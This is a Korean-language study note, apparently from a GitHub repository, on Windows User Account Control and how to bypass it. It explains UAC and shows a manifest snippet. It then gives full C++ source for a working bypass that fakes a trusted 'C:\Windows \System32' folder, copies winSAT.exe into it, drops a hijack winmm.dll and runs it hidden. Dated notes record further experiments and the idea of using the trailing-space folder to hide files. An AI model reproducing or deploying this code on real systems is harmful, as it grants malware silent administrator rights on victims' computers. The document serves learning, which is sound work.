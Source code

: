 # UAC Bypass

User Account Control

Windows Vista에서 처음 선보인 보안 기술이다. 관리자가 권한 수준을 높이는 것을 허용할 때 까지 응용프로그램들은 표준 사용자 권한으로 실행된다.

매니페스트파일에서 requestedPrivileges를 requireAdministrator로 설정하면 실행 시 사용자 권한을 요청?묻는? 창이 뜬다.

```XML
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
  <v3:trustInfo xmlns:v3="urn:schemas-microsoft-com:asm.v3">
    <v3:security>
      <v3:requestedPrivileges>
        <v3:requestedExecutionLevel level="highestAvailable" />
      </v3:requestedPrivileges>
    </v3:security>
  </v3:trustInfo>
</assembly>
```

코드는 이와 같다.

하지만 특정 방법을 사용하면 사용자에게 들키지 않고 몰래 권한 상승이 가능하다.

UAC Bypass라는 이름을 가진 기술이다.

UAC Bypass를 사용한 대표적인 악성코드는 WannaCry가 있다.

또한 윈도우즈 시스템 프로세스는 자체적으로 보안 인증을 통해 UAC Bypass를 지원하고 있으며 이 프로세스에 취약점이 발견될 경우 이를 통해 악성코드가 더 크리티컬한 공격을 감행할 수 있을 것이다.

### UAC Bypass Source

```C++
#include "stdafx.h"
#include <Windows.h>
#include "resource.h"

void DropResource(const wchar_t* rsrcName, const wchar_t* filePath) {
	HMODULE hMod = GetModuleHandle(NULL);
	HRSRC res = FindResource(hMod, MAKEINTRESOURCE(IDR_DATA1), rsrcName);
	DWORD dllSize = SizeofResource(hMod, res);
	void* dllBuff = LoadResource(hMod, res);
	HANDLE hDll = CreateFile(filePath, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, 0, NULL);
	DWORD sizeOut;
	WriteFile(hDll, dllBuff, dllSize, &sizeOut, NULL);
	CloseHandle(hDll);
}

int main()
{
	_SHELLEXECUTEINFOW se = {};
	//Create Mock SystemRoot Directory
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\", 0);
	CreateDirectoryW(L"\\\\?\\C:\\Windows \\System32", 0);
	CopyFileW(L"C:\\Windows\\System32\\winSAT.exe", L"\\\\?\\C:\\Windows \\System32\\winSAT.exe", false);

	//Drop our dll for hijack
	DropResource(L"DATA", L"\\\\?\\C:\\Windows \\System32\\winmm.dll");

	//Execute our winSAT.exe copy from fake trusted directory
	se.cbSize = sizeof(_SHELLEXECUTEINFOW);
	se.lpFile =  L"C:\\Windows \\System32\\winSAT.exe";
	se.lpParameters = L"formal";
	se.nShow = SW_HIDE;
	se.hwnd = NULL;
	se.lpDirectory = NULL;
	ShellExecuteEx(&se);

    	return 0;
}
```

### 190223 추가

컴파일 시 매니페스트에 Ui Access = true로 설정하기 위해서는 전자서명이 필요하며 System32폴더와 같은 신뢰할 수 있는 장소에 있어야 한다.

_출처 : https://social.msdn.microsoft.com/Forums/windowsdesktop/en-US/350ceab8-436b-4ef1-8512-3fee4b470c0a/problem-with-manifest-and-uiaccess-set-to-true?forum=windowsgeneraldevelopmentissues_

WinSAT.exe에는 Ui Access = False로 설정되어있다.

어디서 본건데 신뢰할 수 있는 장소에서는 flag가 무시된다고 하는데 어떤놈은 UI경고창이 뜨고 어떤놈은 안뜬다. 일단 두 케이스에 대한 차이점 조사 예정.

### 190224 추가

이상한점 발견

C:\Windows \ 하위에 폴더 만들어도 잠깐 생겼다가 사라진다. 하지만 삭제된건 아니고 뿅 하고 없어진다.

근데 주소를 직접 치면 접근은 가능하다. 이거 이용해서 파일 본체를 숨길 수 있지 않을까 싶다.

C:\Windows \system32를 접근하면 스페이스를 없애서 C:\Windows\system32로 이동된다.

C:\Windows \system32 는 안만들어진다.

C:\Windows \에서는 C:\Windows \system32를 주소창을 통해 접근이 가능하지만 다른 장소에서는 접근이 안된다.

추측하면 주소창에 입력한 주소가 하위폴더면 바로 이동하는 것 같고 이외는 일단 후킹해서 공백 제거후 폴더 이동하는 것으로 추정된다.

ProcessExplorer로 주소찍어보면 Path에 공백이 사라진것을 볼 수 있다.

![123](https://user-images.githubusercontent.com/41255291/53297290-b61e5300-385f-11e9-8a0b-0f7e03b31275.png)

실험하다가 컴퓨터 강제 포맷되어 테스트 커밋